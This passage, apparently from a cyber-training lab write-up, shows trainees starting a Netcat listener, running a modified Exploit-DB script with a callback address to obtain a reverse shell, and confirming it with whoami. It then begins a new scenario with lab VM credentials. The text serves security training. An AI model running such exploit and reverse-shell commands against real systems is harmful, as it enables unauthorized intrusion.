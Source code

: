 
22. Start the listener again before running the exploit.
(trainee@dmss-kali)-[~] $ nc -nlvp 4444

![image](https://github.com/user-attachments/assets/9bd227b3-0161-4717-be1d-f4d1221993f1)

23. Run the modified exploit script in a different window or tab:
(trainee@dmss-kali)-[~] $ python3 49918.py 199.63.64.51 4444 http://200.200.200.10:8080

![image](https://github.com/user-attachments/assets/4d618cdc-ddb2-4f64-a280-0536c8e8314b)

Once again, the terminal hangs, which is a good sign.


24. Switch over to the terminal that had Netcat running.

![image](https://github.com/user-attachments/assets/1aff7ba7-f741-4d99-a7fb-da5cc48d5d42)

A connection was established from the exploited host.


25. Verify shell functionality with the following command:
whoami

![image](https://github.com/user-attachments/assets/e9bb2e60-b2eb-4d07-a3e3-f310983ecc90)

26. Exit the shell by entering the exit command.


This lab exercise provided the opportunity to find exploits using Exploit-DB and SearchSploit and make minor modifications to an exploit script. These steps are similar to actions attackers undertake when selecting and using an exploit.



----------------------------------------------

Scenario
The mission partner has an internet-facing host. The supported commander wanted to ensure that it was secured against unauthorized external access. The CPT has been tasked to verify that the internet-facing host is secure. Use the provided kali VM to investigate the mission partner's system.

Internet Host: 190.13.1.9
1. Log in to the kali-hunt VM using the provided credentials:

Username: trainee
Password: CyberTraining1!
﻿

![image](https://github.com/user-attachments/assets/5488aed9-65cc-4e8e-a3b8-79592605d845)

![image](https://github.com/user-attachments/assets/623a3334-334c-4881-b6d7-9c0064cecebb)

-----------------------------------------------

![image](https://github.com/user-attachments/assets/54bd0e2f-1fd4-4067-9bc2-9a7a99954128)


![image](https://github.com/user-attachments/assets/5afaf3aa-c0b4-495e-be0c-08d0ad90ba46)
